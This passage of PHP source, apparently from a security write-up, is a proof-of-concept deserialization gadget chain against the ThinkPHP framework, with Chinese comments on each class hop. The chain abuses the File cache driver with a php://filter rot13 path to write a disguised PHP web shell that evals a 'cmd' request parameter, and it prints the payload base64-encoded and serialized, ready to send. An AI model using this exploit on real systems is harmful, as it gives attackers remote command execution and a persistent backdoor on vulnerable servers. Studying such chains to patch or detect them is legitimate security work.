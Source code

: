         function __construct(){
            $this->parent = new Output();#Output对象,目的是调用__call()
            $this->append = ['getError'];
            $this->error = new HasOne();//Relation子类,且有getBindAttr()
            $this->selfRelation = false;//isSelfRelation()
            $this->query = new Query();

        }
    }

    namespace think\db;#Query
    use think\console\Output;
    class Query{
        protected $model;
        function __construct(){
            $this->model = new Output();
        }
    }

    namespace think\session\driver;#Memcached
    use think\cache\driver\File;
    class Memcached{
        protected $handler = null;
        function __construct(){
            $this->handler = new File();//目的调用File->set()
        }
    }
    namespace think\cache\driver;#File
    class File{
        protected $options = [];
        protected $tag;
        function __construct(){
            $this->options = [
            'expire'        => 0,
            'cache_subdir'  => false,
            'prefix'        => '',
            'path'          => 'php://filter/write=string.rot13/resource=./<?cuc cucvasb();riny($_TRG[pzq]);?>',
            'data_compress' => false,
            ];
            $this->tag = true;
        }
    }

    namespace think\model;
    use think\Model;
    class Pivot extends Model{


    }
    use think\process\pipes\Windows;
    echo base64_encode(serialize(new Windows()));

该poc仅可在linux下使用，Windows对文件名有限制。
